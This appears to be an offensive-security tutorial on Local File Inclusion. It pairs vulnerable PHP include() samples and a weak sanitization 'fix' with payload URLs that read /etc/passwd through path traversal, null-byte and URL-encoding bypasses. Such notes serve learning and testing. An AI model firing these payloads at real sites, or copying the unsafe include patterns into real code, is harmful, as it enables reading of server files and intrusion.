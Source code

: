 # Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks

#### We can test for lfi vulnerable code by using "../" a couple of times
```
https://example-site.com/?module=../../../../etc/passwd
```
The code example for this can be
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>  
```
<br>
or 
<br>
```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```
<br>
This vuln can be fixed with the below code tho its still vulnerable...
<br>
```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```
<br>
#### bypass of: $_GET['param']."php"
In some servers, they add a definite file extension to prevent exploitation....
<br>
We can exploit this by adding a null byte in url encoding:
<br>
This only applies to php version 5.3.4 and below...
```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
```
<br>

#### In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
<br>
If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

